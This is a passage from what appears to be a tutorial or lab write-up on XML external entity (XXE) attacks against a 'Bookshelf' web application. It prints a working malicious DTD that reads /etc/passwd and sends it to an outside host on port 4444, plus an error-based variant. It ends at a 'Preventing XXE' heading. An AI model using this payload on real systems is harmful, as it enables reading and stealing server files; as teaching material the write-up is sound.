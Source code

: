 6. Create DTD document remote.dtd

   ```
   <!ENTITY % a SYSTEM "file:///etc/passwd">
   <!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'http://192.168.101.125:4444/?content=%a;'>">
   %b;
   %c;
   ```

   OR

   ```
   <!ENTITY % a SYSTEM "file:///etc/passwd">
   <!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'file:///helloworld/%a;'>">
   %b;
   %c;
   ```

7. Upload books.xml in Bookshelf web application admin login and verify



![image-20211016121731716](images/image-20211016121731716.png)

### Preventing XXE
